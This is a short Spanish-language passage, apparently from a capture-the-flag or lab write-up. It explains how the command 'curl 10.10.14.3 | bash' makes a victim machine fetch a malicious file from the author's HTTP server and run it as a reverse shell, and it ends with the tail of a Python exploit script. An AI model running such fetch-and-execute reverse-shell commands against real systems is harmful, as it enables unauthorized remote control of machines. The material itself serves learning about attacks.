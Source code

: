````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.
                    sleep(5)
                    shell.interactive() 
                
        except Exception as e:
            log.error(str(e))
```